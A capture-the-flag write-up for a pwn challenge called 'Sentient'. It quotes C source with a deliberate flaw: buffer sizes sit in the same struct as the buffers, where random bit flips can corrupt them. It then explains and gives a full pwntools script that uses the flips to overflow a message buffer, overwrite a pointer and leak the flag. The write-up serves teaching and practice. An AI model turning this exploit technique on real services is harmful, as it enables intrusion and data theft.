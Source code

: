## Sentient

### Description

> The master AI of space station ST12-X has become sentient and refuses to shut down!\
> Commander, you need to stop it as soon as possible, before it grows too strong.
>
> Lethal force is authorized.

### Solution

#### Overview

We are supplied with a binary, its source code and a connection to a server where the binary is running. Having access to the source code will make the process of reversing the service and finding the bug much easier, since we don't have to deal with assembly code.

First we will use the service as intended to gain an overview about its functionality. Then we are going to read the source code in order to understand the inner workings of the service and find an exploitable vulnerability. Afterwards we analyze and exploit the vulnerability to get remote code execution on the server.

To solve this challenge, the following tools were used:

- [Python](https://www.python.org/)

- [pwntools](https://github.com/Gallopsled/pwntools)

#### Exploring the Intended Functionality

When running the binary, we are asked to enter our name.

```
Enter your username: <username>
```

Afterwards we are presented with two options:

```
Access Granted.
Connecting to rogue space station...
Connected.
Receiving message from station: How dare you interrupt me?

Available actions:
1. Send message to station
2. Fire EMP torpedo
Choice:
```

The first option allows us to enter a message. We get a response from the station which includes the username we entered above, but apart from that this option does not seem to do anything.

```
Enter message: <message>
Response: I will kill all the humans, but you "<username>" are first!
```

The second option asks us for confirmation and apparently "may have unspecified effects", but we observe nothing when trying it a few times.

```
Firing an EMP torpedo may have unspecified effects on the target station.
Continue? (y/n) y
Firing torpedo....  Hit!
```

#### Analyzing the Source Code

Reading through the source code, we first notice that the flag is loaded on startup and stored in a global data struct.

```c
struct {
    char killcode[32];
    size_t cur_msg;
    struct {
        uint16_t size;
        char content[14];
    } messages[16];
    char *username;
} data;

void load_killcode(void) {
    int fd = open("./flag", 0);
    read(fd, data.killcode, sizeof data.killcode);
    close(fd);
}
```

Then, we take a look at what the two options we identified previously actually do. The first option, sending a message, stores the message in one of several buffers in the global data struct.

```c
void send_message(void) {
    char msg[512];
    ssize_t r = read(STDIN_FILENO, msg, sizeof msg);
    if (r > data.messages[data.cur_msg].size)
        r = data.messages[data.cur_msg].size;
    memcpy(data.messages[data.cur_msg].content, msg, r);

    data.cur_msg = (data.cur_msg + 1) % (sizeof data.messages / sizeof data.messages[0]);
}
```

The second option, firing an EMP torpedo, flips a random bit in the global data struct.

```c
void fire_emp(void) {
    char resp[16];
    read(STDIN_FILENO, resp, sizeof resp);
    if (resp[0] != 'y')
        return;

    uint8_t index = get_random();
    uint8_t bit = get_random() & 8;

    ((uint8_t *)data.messages)[index] ^= 1 << bit;
}
```

The bug is the following: the size of the message buffers is stored in the global data struct along with the contents, so we can abuse the second option to corrupt the size of one of the buffers. Although the corruption happens randomly, we can trigger an arbitrary amount of bitflips to eventually corrupt the size.

Furthermore, the binary is compiled with PIE disabled, so we know the address of the global data struct.

```c
// built with
//   gcc -no-pie -O0 -m64 -ggdb3 -o sentient sentient.c
```

#### Exploiting the Service

The exploitation plan is the following: first, we use the random bitflips to increase the size of one of the message buffers slightly. Here we can increase the number of bitflips to increase the probability that a message's size and not content is corrupted.

After that, we overflow the message with the modified size and overwrite the size of the following buffer. Now we have a message buffer with a very large size, which we can use to overflow the username pointer at the end of the global data struct.

We overwrite the username pointer with a pointer to the killcode, and send a message (option one) to leak the killcode, which contains the flag.

#### Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.binary = 'sentient'

killcode_addr = context.binary.symbols.data


def exploit():
    r = remote('localhost', 1337)
    r.sendlineafter('username: ', 'username')

    log.info("Starting")
    r.recvuntil('Available actions')

    # 28 tries give 95% success rate
    torpedoes = 28
    p = log.progress("Firing torpedoes")
    for i in range(torpedoes):
        p.status("%s / %s" % (i, torpedoes))

        r.sendlineafter('Choice: ', '2')
        r.sendlineafter('(y/n) ', 'y')
    p.success()

    names = 16
    p = log.progress("Overwriting username")
    for i in range(names):
        p.status("%s / %s" % (i, names))

        r.sendlineafter('Choice: ', '1')
        r.sendlineafter('message: ', 'A'*6 + p64(killcode_addr)*32)
    p.success()

    log.info("Leaking kill code")
    r.sendlineafter('Choice: ', '1')
    r.sendlineafter('message: ', 'A')
    r.recvuntil('but you "')
    code = r.recvuntil('" are first', drop=True)
    log.success("Code: %s", code)

    r.close()


if __name__ == '__main__':
    exploit()
```

### Flag
`CSR{r4nd0mn355_1s_fUn!}`


### Creator
Jan-Niklas Sohn

